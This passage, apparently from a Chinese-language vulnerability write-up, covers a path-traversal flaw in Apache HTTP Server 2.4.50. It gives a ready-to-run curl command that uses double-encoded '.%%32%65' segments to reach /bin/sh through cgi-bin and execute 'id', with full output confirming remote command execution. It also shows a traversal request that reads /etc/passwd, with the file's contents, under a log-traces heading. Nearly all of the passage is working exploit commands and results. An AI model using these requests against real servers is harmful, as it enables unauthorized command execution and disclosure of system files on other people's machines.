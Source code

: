 在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```yml
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

```yml
curl -v --data "echo;id" 'http://10.211.55.10:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> Content-Length: 7
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 7 out of 7 bytes
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 05:34:09 GMT
< Server: Apache/2.4.50 (Unix)
< Transfer-Encoding: chunked
< 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

#### 日志留痕

HTTP.log

```http.log
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*

HTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 05:39:09 GMT
Server: Apache/2.4.50 (Unix)
Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
ETag: "39e-5cceec7356000"
Accept-Ranges: bytes
Content-Length: 926

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```